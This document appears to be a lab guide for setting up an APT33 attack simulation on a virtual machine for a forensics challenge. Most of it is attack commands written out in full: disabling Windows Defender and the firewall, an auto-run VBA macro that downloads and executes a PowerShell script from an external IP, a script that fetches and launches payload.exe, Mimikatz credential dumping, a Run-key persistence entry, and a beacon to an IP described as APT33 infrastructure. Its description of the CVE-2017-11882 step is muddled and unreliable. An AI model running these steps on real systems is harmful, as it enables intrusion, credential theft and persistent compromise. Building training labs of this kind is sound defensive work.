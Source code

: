 ## 🛠️ Step 2: Preparing the VM for the APT33 Attack Simulation

This section prepares the attack scenario involving APT33 tactics and tools. These steps are aligned with the challenge questions.

---

### 🔒 Step 1: Disable Windows Defender and Windows Firewall

**Goal:** Weaken system defenses to allow malicious activity without interruption.

Run the following PowerShell commands:

`Set-MpPreference -DisableRealtimeMonitoring $true Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False`

---

### 📄 Step 2: Deploy the Malicious Document (Initial Infection Vector)

A file disguised as a `.png` is actually a `.docx` with an embedded macro that exploits **CVE-2017-11882**.

1. Download or create a **fake image file** with a `.png` extension.
    
2. Change its signature bytes to match a valid Office document (e.g., `50 4B 03 04` for ZIP/Office Open XML).
    
3. Rename it to `malicious_doc.docx`.
    
4. Inside the document, insert a VBA macro that triggers on open:
    

vba

CopyEdit

`Sub AutoOpen()     Set objShell = CreateObject("WScript.Shell")     objShell.Run "powershell.exe -ExecutionPolicy Bypass -Command IEX (New-Object Net.WebClient).DownloadString('http://185.234.1.56/malware.ps1')" End Sub`

Save it in:  
`C:\Users\analyst\Documents\malicious_doc.docx`

---

### 💻 Step 3: Drop the PowerShell Malware Script

The macro will download and execute this PowerShell script from the attacker's server.

Create the file:  
`C:\Users\analyst\AppData\Roaming\malware.ps1`

powershell

CopyEdit

`# Simulated malware download and execution Invoke-WebRequest -Uri http://185.234.1.56/payload.exe -OutFile "C:\Users\analyst\AppData\Local\Temp\payload.exe" Start-Process "C:\Users\analyst\AppData\Local\Temp\payload.exe"`

The script fetches the **payload.exe** used in later analysis.

---

### 🛠️ Step 4: Execute Credential Dumping with Mimikatz

Download [Mimikatz](https://github.com/gentilkiwi/mimikatz) and extract it into:  
`C:\Users\analyst\Documents\mimikatz\`

Run it from PowerShell or CMD:

powershell

CopyEdit

`C:\Users\analyst\Documents\mimikatz\x64\mimikatz.exe`

Once inside the tool, execute:

plaintext

CopyEdit

`privilege::debug sekurlsa::logonPasswords`

This simulates administrator credential dumping.

---

### 🧬 Step 5: Establish Persistence via Registry Key

To simulate persistence:

powershell

CopyEdit

`Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "UpdaterSvc" -Value "C:\Users\analyst\AppData\Local\Temp\payload.exe"`

This causes `payload.exe` to auto-launch at user login.

---

### 🌐 Step 6: Simulate Command & Control (C2) Communication

A PowerShell command is used to simulate beaconing to the attacker-controlled infrastructure:

powershell

CopyEdit

`Invoke-WebRequest -Uri http://103.236.149.100/`

This IP address is associated with **APT33 infrastructure** and is used to trigger alerts or visibility in the memory image.